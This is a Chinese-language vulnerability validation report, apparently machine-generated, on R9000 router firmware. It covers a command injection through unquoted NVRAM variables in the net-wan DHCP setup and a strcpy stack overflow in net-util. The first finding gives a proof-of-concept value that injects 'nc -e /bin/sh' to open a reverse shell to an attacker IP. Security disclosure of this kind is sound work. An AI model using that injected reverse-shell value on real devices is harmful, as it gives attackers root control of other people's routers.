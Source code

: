 # R9000 - 验证报告 (42 个发现)

---

## 原始信息

- **文件/目录路径：** `etc/init.d/net-wan`
- **位置：** `net-wan:~100 setup_interface_dhcp`
- **描述：** 在 'net-wan' 脚本的 `setup_interface_dhcp` 函数中存在命令注入漏洞。攻击者可以通过修改 NVRAM 变量（如 `wan_hostname`、`Device_name`、`wan_dhcp_ipaddr`、`wan_dhcp_oldip` 或 `wan_domain`）注入恶意命令。当 WAN 协议设置为 DHCP 并触发网络重新连接时（例如通过重启网络服务），`udhcpc` 命令会以 root 权限执行，导致任意命令执行。漏洞的触发条件包括：攻击者能够修改上述 NVRAM 变量（通过 Web 界面或 CLI），且设备处于 DHCP 模式。利用方式包括注入 shell 命令（如反向 shell 或文件操作）来提升权限或控制设备。完整攻击链：攻击者登录设备 → 修改 NVRAM 变量 → 触发网络重启 → 命令以 root 权限执行。
- **代码片段：**
  ```
  udhcpc -b -i $WAN_IF -h $u_hostname -r $($CONFIG get wan_dhcp_ipaddr) -N $($CONFIG get wan_dhcp_oldip) ${u_wan_domain:+-d $u_wan_domain} &
  ```
- **备注：** 漏洞依赖于攻击者能够修改 NVRAM 变量，这可能通过设备的 Web 管理界面或 CLI 实现。建议进一步验证 NVRAM 变量的修改权限和实际可利用性。关联文件包括 `/lib/network/ppp.sh` 和其他 init 脚本，但本漏洞在 'net-wan' 中独立存在。后续分析应检查其他协议（如 PPPoE）中是否存在类似问题。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报描述准确。在 `setup_interface_dhcp` 函数中，NVRAM 变量（如 `wan_hostname`、`Device_name`、`wan_dhcp_ipaddr`、`wan_dhcp_oldip` 和 `wan_domain`）通过 `$CONFIG get` 获取后直接用于 `udhcpc` 命令参数，未进行输入清理或引号处理。由于变量未引号，攻击者可以注入 shell 元字符（如分号、反引号）来执行任意命令。攻击者模型：已通过身份验证的用户（具有修改网络设置的权限）可以通过 Web 界面或 CLI 修改这些 NVRAM 变量，然后触发网络重启（例如执行 `/etc/init.d/net-wan restart`）。当 WAN 协议设置为 DHCP 时，`setup_interface_dhcp` 函数被调用，`udhcpc` 以 root 权限执行，导致任意命令执行。完整攻击链：1) 攻击者登录设备；2) 修改 NVRAM 变量（例如设置 `wan_hostname` 为恶意值）；3) 触发网络重启；4) 命令注入执行。概念验证（PoC）：设置 `wan_hostname` 为 '; nc -e /bin/sh 192.168.1.100 4444; '，当网络重启时，会启动反向 shell 连接到攻击者控制的 IP 192.168.1.100 端口 4444。其他变量也可类似利用。漏洞风险高，因为允许 root 权限的任意命令执行。

## 验证指标

- **验证时长：** 172.29 秒
- **Token 使用量：** 236902

---

## 原始信息

- **文件/目录路径：** `sbin/net-util`
- **位置：** `fcn.0000ca68:0x0000cac0 (strcpy call)`
- **描述：** 栈缓冲区溢出漏洞在函数 fcn.0000ca68（由 fcn.0000e14c 调用）中，通过 strcpy 复制用户提供的接口名。输入点：命令行参数 argv[1]（接口名）。数据流：argv[1] → strcpy → 栈缓冲区（大小未明确检查）。缺乏输入验证，如果接口名长度超过缓冲区大小，可溢出并覆盖返回地址。触发条件：用户执行 net-util 时提供恶意长接口名参数。利用方式：craft 长接口名 payload 控制程序流，实现代码执行。约束：攻击者需有权限执行 net-util 并传递自定义参数；漏洞在 IPv6 守护进程上下文中，可能以提升权限运行。
- **代码片段：**
  ```
  From fcn.0000ca68 disassembly: mov r1, r6; bl sym.imp.strcpy ; 其中 r6 保存用户输入的接口名，strcpy 无长度检查复制到栈缓冲区
  ```
- **备注：** 此漏洞在网络相关 IPv6 守护进程中，可能被非 root 用户利用实现代码执行。建议进一步分析缓冲区大小和开发可靠利用。system 调用在 fcn.0000e14c 中硬编码，不直接影响，但缓冲区溢出提供独立利用路径。

